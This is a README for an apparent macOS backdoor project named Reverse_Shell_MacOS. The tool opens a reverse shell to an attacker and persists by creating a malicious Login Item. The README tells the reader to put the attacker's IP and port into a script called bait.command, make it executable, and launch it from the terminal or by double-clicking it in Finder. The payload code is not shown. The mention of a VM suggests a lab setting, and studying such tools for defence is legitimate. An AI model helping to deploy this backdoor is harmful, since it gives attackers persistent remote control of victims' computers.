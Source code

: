 # Reverse_Shell_MacOS
Simple backdoor: reverse shell attack, achieving persistence by creating a malicious Login Item.

The user *_will_* be notified that a login item was created.

## Requirements:
-  the macOS operating system (on the attacked VM)
-  Xcode
-  file accessing permissions for Terminal


## 1. Customisation & Preparation.
In `bait.command`, line 10, change the numbers `HOST,PORT=\"0.0.0.0\",\"0\"` to match the attacker's IP on a port of your choice. (For example, `HOST,PORT=\"172.54.4.16\",\"9999\"`)

Make sure `bait.command` has appropriate permissions: `chmod +x bait.command` or `chmod 111 bait.command`

## 2. Running options.
-  Calling `./bait.command` from the command line
OR
-  Double-clicking the file in Finder or Desktop (requires .command extention)

